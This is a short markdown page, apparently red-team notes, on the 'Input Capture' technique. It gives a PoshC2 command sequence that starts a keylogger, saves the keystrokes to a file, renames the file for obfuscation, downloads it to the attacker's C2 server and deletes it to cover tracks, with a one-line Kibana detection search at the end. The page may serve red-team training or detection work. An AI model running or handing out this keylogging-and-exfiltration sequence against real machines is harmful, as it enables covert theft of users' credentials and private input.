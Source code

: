 # [Input Capture]()

## Exploit Description: 
Adversaries may use methods of capturing user input to obtain credentials or collect information. During normal system usage, users often provide credentials to various different locations, such as login pages/portals or system dialog boxes. Input capture mechanisms may be transparent to the user (e.g. Credential API Hooking) or rely on deceiving the user into providing input into what they believe to be a genuine service (e.g. Web Portal Capture).


## Exploit syntax:
In Poshc2, Run
```sh
start-keystrokes ##Starts the Keylogger

start-keystrokes-writefile ##record this file location(.log)

### Keylogger is now running until Stopped ###

copy "C:\keystroke file location" C:\sameplace with new filename ##Change the name for obfuscation/readability

Download-file C:\sameplace with new filename ## Gets put into /var/poshc2/*projectname*/downloads

Stop-Keystrokes ##Stop keylogger for cleanup

posh-delete C:\sameplace with new filename ##Cleaning up file created
```


## Detection Technique:
* (Kibana): Utilized string searches. (“Get-Keystrokes”)
